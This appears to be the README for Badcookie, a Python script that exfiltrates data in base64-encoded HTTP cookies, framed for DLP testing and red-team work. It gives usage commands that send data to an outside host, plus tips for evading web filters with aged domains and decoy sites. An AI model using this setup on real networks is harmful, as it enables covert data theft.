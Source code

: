 # Requirements
Python 2.7

### Libraries
* Requests

# Description
Badcookie exfiltrates data via base64 encoded HTTP cookies.

# Use cases
* The script can be used for testing the effectiveness of data loss prevention systems.
* Outbound network traffic monitoring systems.
* Red Team / Blue team exercises e.g. see if the blue team can detect data exfiltraion.
* Penetration testing activities

#Things to keep in mind
* The script transmits data via http not https
* Base64 encoded data can be easily decoded
* Be mindful of the cookie size when transmitting data

#Usage
`badcookie.py <destination_host> <exfiltrated_data>`

`Example(1): badcookie.py 10.0.0.2 "very important data"`

`Example(2): badcookie.py www.secretsite.com "very important data"`

Use quotes if you plan to transmit data with whitespace


#Setting up the data exfiltration process

* To make the network traffic look convincing setup a site with a proper domain name. It can be a news, blog or any other site, so when you exfiltrate data the network traffic will look like normal web traffic going to a legitimate site. (atleast this is what we are trying to accomplish).
* Fill the site with real looking content.
* If you are testing systems where there is a web filtering proxy involved, try and use a  domain name which is more than a year old as web filtering proxies block new domains. In either case using an aged domain name will be beneficial.
* Avoid sending data using IP addresses.
* Enable  logging of http cookies in Apache web server ( you can use any server you like). The sample config file  [000-default.conf](https://github.com/akbarq/badcookie/blob/master/apache_conf/000-default.conf) can be used to enable cookie logging. 
* Place the **000-default.conf** file in **/etc/apache2/sites-enabled/** and restart Apache. You should now see a file called **“cookies.log”** in **/var/log/apache2**.
* Execute the badcookie script from the victim machine / network.
* After executing the script you should see the following log entry in cookies.log file. The log file shows the transmitted base64 cookie.

`10.0.0.2 - - [13/Jun/2015:18:48:17 -0500] "GET / HTTP/1.1" 200 3256 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MDDCJS; :11.0) like Gecko" "dGVzdGluZw=="`

* You can now decode the base64 encoded data.

Please note that the above process is just a suggestion, you can setup the exfiltration process anyway you like.


